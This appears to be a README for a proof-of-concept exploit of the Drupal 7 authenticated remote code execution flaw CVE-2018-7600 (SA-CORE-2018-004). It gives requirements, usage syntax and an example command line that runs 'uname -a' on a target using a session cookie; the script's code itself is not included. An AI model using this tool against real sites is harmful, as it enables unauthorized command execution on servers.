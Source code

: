 ### SA-CORE-2018-004
Drupalgeddon3 SA-CORE-2018-004 POC

CVE-2018-7600 - Drupal 7.x RCE

Drupal < 7.59 authenticated RCE

Requirements
python requests (pip install requests)

### Usage
`python drupalgeddon3.py [URL] [Session] [Exist Node number] [Command]`

### Example
`python drupalgeddon3.py http://target/drupal/ 'SESS60c14852e77ed5de0e0f5e31d2b5f775=htbNioUD1Xt06yhexZh_FhL-h0k_BHWMVhvS6D7_DO0' 6 'uname -a'`

<img src='https://raw.githubusercontent.com/oways/SA-CORE-2018-004/master/example.png'/>
